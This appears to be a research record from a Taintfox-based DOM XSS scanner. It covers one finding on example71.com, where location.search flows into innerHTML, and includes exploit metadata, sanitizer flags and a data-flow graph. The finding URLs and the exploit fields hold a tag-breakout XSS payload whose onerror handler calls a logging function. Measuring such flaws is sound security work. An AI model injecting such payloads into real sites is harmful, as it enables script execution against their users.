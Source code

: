 // Finding: 03b7404b-21b9-4319-9ba0-4f74abb6967b
// Finding.url: https://example71.com/grants/awarded-grants?</iframe></style></script></object></embed></textarea><img src=x onerror=taintfoxLog('4f620ef7f2864984b7692340e41ae113')><!--/*?field_recipient_type[Grants+to+State+Libraries]=Grants+to+State+Libraries&field_fiscal_year_text[1]=1
// Finding.parentloc: https://example71.com/grants/awarded-grants?</iframe></style></script></object></embed></textarea><img src=x onerror=taintfoxLog('4f620ef7f2864984b7692340e41ae113')><!--/*?field_recipient_type[Grants+to+State+Libraries]=Grants+to+State+Libraries&field_fiscal_year_text[1]=1
// Finding.domain: example71.com
// Finding.base_domain: example71.com
// Finding.source: location.search
// Finding.sink: innerHTML
// Sanitizer.score: 1
// Sanitizer.name: <synthetic>
// Sanitizer.location: example18.com
// Finding.begin: 173
// Finding.end: 231
// Finding.original_uuid: fe53293b-8422-4df5-a8cd-ed80b6fb59c4
// Finding.TwentyFiveMillionFlowsId: 974471246
// Finding.script: https://example71.com/core/assets/vendor/jquery/jquery.min.js?v=3.5.1
// Finding.line: 2
// Exploit.uuid: 4f620ef7-f286-4984-b769-2340e41ae113
// Exploit.success: false
// Exploit.status: validated
// Exploit.method: C
// Exploit.type: html
// Exploit.token: text
// Exploit.content: s
// Exploit.quote_type: None
// Exploit.tag: None
// Exploit.break_out: </iframe></style></script></object></embed></textarea><img src=x onerror=
// Exploit.break_in: ><!--/*
// Exploit.payload: </iframe></style></script></object></embed></textarea><img src=x onerror=taintfoxLog(1)><!--/*
// Exploit.begin_taint_url: 32
// Exploit.end_taint_url: 38
// Exploit.replace_begin_url: 39
// Exploit.replace_end_url: 38
// Exploit.replace_begin_param: 31
// Exploit.replace_end_param: 31
// Issues.LargestEncodeAttrStringChain: 0
// Issues.LargestTextFragmentEncodeChainLength: 0
// Issues.HasApproximation: false
// Issues.HasMissingImplementation: false
// Issues.HasInfiniteRegexWithFunctionReplacer: false
// Issues.MergedSplitAndJoins: true
// Issues.HasUrlInRhsOfReplace: false
// Issues.HasUrlInLhsOfReplace: false
// Issues.HasCookieValueInLhsOfreplace: false
// Issues.HasCookieValueInRhsOfreplace: false
// Issues.HasCookieValueInMatchPattern: false
// Issues.HasCookieValueInExecPattern: false
// Issues.RemovedLRConcats: false
// Issues.RemovedReplaceArtifacts: false
// Issues.HasUrlInMatchPattern: false
// Issues.HasUrlInExecPattern: false
// Issues.RemovedNOPreplaces: false
// Issues.Known_sanitizer: false
// DepGraph.hash: -663040842
// DepGraph.sanitizer_hash: -621721299
// Merged split and join statements 
digraph cfg {
n0 [shape=house, label="Input: x"];
n1 [shape=ellipse, label="decodeURIComponent"];
n2 [shape=box, label="Var: x"];
n3 [shape=ellipse, label="url_params_key"];
n4 [shape=box, label="Lit: </iframe></style></script></object></embed></textarea><img src"];
n5 [shape=box, label="Var: x"];
n6 [shape=ellipse, label="preg_replace"];
n7 [shape=box, label="RegExp: /[ ]/"];
n8 [shape=box, label="Lit: -"];
n9 [shape=box, label="Var: x"];
n10 [shape=box, label="Var: x"];
n11 [shape=doubleoctagon, label="Return: x"];
n2 -> n0;
n1 -> n2;
n5 -> n1;
n3 -> n4;
n3 -> n5;
n9 -> n3;
n6 -> n7;
n6 -> n8;
n6 -> n9;
n10 -> n6;
n11 -> n10;
}